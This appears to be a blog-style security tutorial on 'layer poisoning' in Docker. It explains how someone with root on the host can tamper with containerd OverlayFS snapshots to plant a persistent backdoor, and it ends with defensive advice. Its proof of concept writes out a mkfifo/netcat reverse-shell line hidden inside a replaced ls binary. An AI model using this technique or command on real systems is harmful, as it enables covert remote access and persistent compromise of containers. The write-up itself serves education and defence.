







Layer poisoning, the art of compromising docker from its foundations
Docker containers are often presented as isolated and immutable environments. Yet, there is an attack technique called Layer poisoning. It allows compromising a container by silently modifying its file system layers directly on the host.
1. The concept: poisoning the source
"Layer poisoning" involves injecting malicious code into docker's storage snapshots (managed by containerd). It's not a docker bug per se, but a direct exploitation of its architecture. If an attacker manages to gain root access on the host, they can modify the "source" files that the container uses to start. The result? A persistent backdoor, invisible to standard scanning tools.
2. Docker and OverlayFS
To understand the attack, you need to understand OverlayFS. Docker stacks image layers to form the container's final file system. This mechanism relies on three pillars:
- Lowerdir: The base image layers (e.g., alpine), normally read-only.
- Upperdir: The write layer specific to the container (where your modifications go).
- Merged: The merged view that the user sees inside the container.
Normally, the lowerdir is protected. But on the host, these files are stored in /var/lib/containerd/.../snapshots/. By modifying these snapshots, you modify the very DNA of the container.
3. Anatomy of an attack (PoC)
Let's move to practice. The objective here is to transform a mundane command (ls) into a connection vector for the attacker.
Attacker's side: We set up a netcat listener on port 4444:

We launch two standard alpine containers. For the experiment, we assume we already have root access on the host.

Our goal is to find where these containers "live" physically.

Here, we identify the OverlayFS mount point associated with the container.
Once inside the snapshot (here number 49), we have access to the complete directory tree of the container (/bin, /etc, etc.). This is where we'll act:

We replace the ls binary with a malicious script:

This script does two things: It launches a reverse shell in the background to the attacker's IP and calls the real ls binary so the user doesn't notice anything.
(mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 172.17.0.1 4444 > /tmp/f &) > /dev/null 2>&1Now, when the user executes the command ls /etc,, here's what they observe:

The display is normal, the illusion is perfect.
Attacker's side, the connection arrives:

4. After all, why is it so dangerous?
What makes layer poisoning particularly insidious is its discretion. If you run docker diff, docker won't see any modifications because the change occurred in the lowerdir (the base image) and not in the container's write layer.
On top of that, any new container created from this local image will be natively infected.
5. Conclusion
This demonstration proves that if the host's integrity is compromised, the container is in danger. In my opinion, a few avenues for improvement...
Everything first relies on the PoLP to lock down access to critical containerd folders. Next, I found that there is a --read-only option that neutralizes the persistence of an intrusion. Finally, more advanced but there are also file integrity monitoring tools (FIM) that can be used to detect in real-time any suspicious modification within /var/lib/docker. Solutions like Tripwire or AIDE can be configured to monitor these sensitive directories and alert administrators in case of unexpected changes.